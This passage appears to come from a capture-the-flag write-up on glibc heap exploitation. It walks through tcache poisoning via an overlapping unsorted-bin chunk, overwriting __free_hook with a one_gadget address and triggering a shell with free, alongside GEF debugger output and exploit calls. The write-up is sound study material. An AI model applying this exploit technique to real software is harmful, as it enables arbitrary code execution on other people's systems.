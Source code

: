 ```r
────────────────────────────────── Unsorted Bin for arena 'main_arena' ──────────────────────────────────
[+] unsorted_bins[0]: fw=0x55ab342e07f0, bk=0x55ab342e07f0
 →   Chunk(addr=0x55ab342e0800, size=0x530, flags=PREV_INUSE)
[+] Found 1 chunks in unsorted bin.
```

If you pay close attention, the chunk of the `unsorted` bin is pointing to the address `0x55.....0800` and at the same time the `tcache bin[0]`'s chunk point to the `0x55....0810`, this proposed the idea of allocating a chunk of a size which will return the exact chunk pointed by the `unsorted` bin, that way we will be able to overwrite the `fd` of the `tcache` chunk `0x55......0810`.

```py
add(0x400,p64(0x00)*2 +p64(free_hook))
```

Doing that so, this will overwrite the `fd` of the chunk `0x55...810` to the address of the `free_hook`, for which we can get it in next allocation-

```r
gef➤  heap bins tcache
────────────────────────────────── Tcachebins for arena 0x7fe15febfc40 ──────────────────────────────────
Tcachebins[idx=0, size=0x20] count=1  ←  Chunk(addr=0x55ab342e0810, size=0x0, flags=)  ←  Chunk(addr=0x7fe15fec18e8, size=0x0, flags=) 
Tcachebins[idx=5, size=0x70] count=255  ←  [Corrupted chunk at 0xfbad2887]

gef➤  p &__free_hook 
$60 = (void (**)(void *, const void *)) 0x7fe15fec18e8 <__free_hook>

```

We successfully overwritten the chunk `0x55..810`'s `fd` to the address of the `free_hook`, now we will just do two allocations, one will return the chunk `0x55..810` and the other one will give us the target i.e. `__free_hook`.

```py
add(0x10,"a")   # Gives the chunk 0x55....810
add(0x10,p64(one_gadget),1)  # Gives the __free_hook address and result in being overwritten with the one_gadget address
``` 
Given this, it'll result in the `__free_hook` being overwritten with the `one_gadget` address:-


```r
gef➤  x/xg &__free_hook 
0x7fa27c4e18e8 <__free_hook>:	0x00007fa27c143432
```
Great, we successfully overwrote the `__free_hook` address, now we will just do `free(0)` which will just result in the `one_gadget` being called, spawning a shell:-

```py
free(0)
```

Now, we get a shell:-
